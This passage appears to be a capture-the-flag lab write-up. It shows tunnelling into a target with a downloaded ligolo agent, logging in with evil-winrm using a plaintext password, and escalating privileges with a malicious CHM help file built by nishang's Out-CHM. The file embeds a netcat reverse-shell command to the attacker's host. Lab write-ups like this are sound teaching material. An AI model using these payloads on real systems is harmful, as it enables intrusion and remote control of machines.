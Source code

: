 On target download agent and run
```
copy \\10.10.14.8\ica\agent.exe .
.\agent.exe -connect 10.10.14.8:11601 -ignore-cert
```
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914085405.png)


On kali set session and add tunnel
```
session   #1
ifcreate --name ligolo0
tunnel_start --tun ligolo0
route_add --name ligolo0 --route 240.0.0.1/32
route_list
```
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914085503.png)

We are connected 

```
evil-winrm -i 240.0.0.1 -u chris -p '36mEAhz/B8xQ~2VM'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914085253.png)

Now grab user.txt

## Privilege Escalation

Starting I found interesting file in Downloads

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914085907.png)

.chm are windows help files after copy on my windows vm I can open this file

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914090330.png)

also in c:/ there is non-default folder Docs and note from CEO

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914085808.png)

Searching google I found that we can create malicious chm file with nishang out-chm.ps1
https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1
First we need to install Microsoft HTML Help, no more official download so I found this one
https://www.helpandmanual.com/downloads_mscomp.html

```
import-module .\Out-CHM.ps1
 
Out-CHM -Payload "C:\programdata\nc.exe -e cmd.exe 10.10.14.8 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914092052.png)
